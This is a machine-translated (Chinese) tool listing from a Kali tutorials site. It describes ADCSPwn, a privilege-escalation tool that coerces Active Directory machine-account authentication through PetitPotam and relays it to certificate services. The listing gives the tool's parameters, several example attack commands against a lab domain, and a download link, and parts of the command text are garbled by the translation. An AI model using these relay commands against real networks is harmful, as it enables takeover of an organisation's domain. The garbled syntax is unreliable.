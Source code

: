 # ADCSPwn:通过强制从机器帐户进行身份验证并转发到证书服务来提升 Active Directory 网络中权限的工具

> 原文：<https://kalilinuxtutorials.com/adcspwn/>

[![NebulousAD : Automated Credential Auditing Tool](img//f6e67886298a9b5cbfc6f9b6ede89d2d.png "NebulousAD : Automated Credential Auditing Tool")](https://1.bp.blogspot.com/-GvP1kX66PYM/XWdJfCq5H_I/AAAAAAAACRA/BZuVZ_a-5BY8s5iRdjYszTMZ_STje-AYgCLcBGAs/s1600/NebulousAD%2B%25281%2529.png)

**ADCSPwn** 是一个工具，它通过强制从机器帐户(Petitpotam)进行身份验证并转发到证书服务来提升 active directory 网络中的权限。

**用途**

在目标网络上运行`**ADCSPwn**`。

**作者:@*batsec*–MDSec active breach
投稿人:@ flang vik–trusted sec
adcspwn.exe–ADC–port[本地端口]–remote[计算机]
必需参数:
ADC–这是认证将被中继到的 adcs 服务器的地址。
可选参数:
port–ADCs pwn 将侦听的端口。
Remote–触发认证的远程机器。
用户名–非域上下文的用户名。
密码–非域上下文的密码。
DC–查询证书模板(LDAP)的域控制器。
unc–为 EfsRpcOpenFileRaw (Petitpotam)设置自定义 UNC 回调路径。
输出–存储 base64 生成的 crt 的输出路径。
示例用法:
adcspwn.exe–ADC cs . pwnlab . local
adcspwn.exe–ADC cs . pwnlab . local–port 9001
adcspwn.exe–ADC cs . pwnlab . local–remote DC . pwnlab . local
adcspwn.exe–ADC cs . pwnlab . local–remote DC . pwnlab . local–port 9001
adcspwn.exe–ADC cs . pwnlab . local–remote DC . pwnlab . local–output C:\ t–DC DC . pwn lab . local
adcspwn.exe–ADC cs . pwn lab . local–remote DC . pwn lab . local–DC DC . pwn lab . local–unc \ WIN-work 01 . pwn lab . local \ made \ up \ share**

[**Download**](https://github.com/bats3c/ADCSPwn)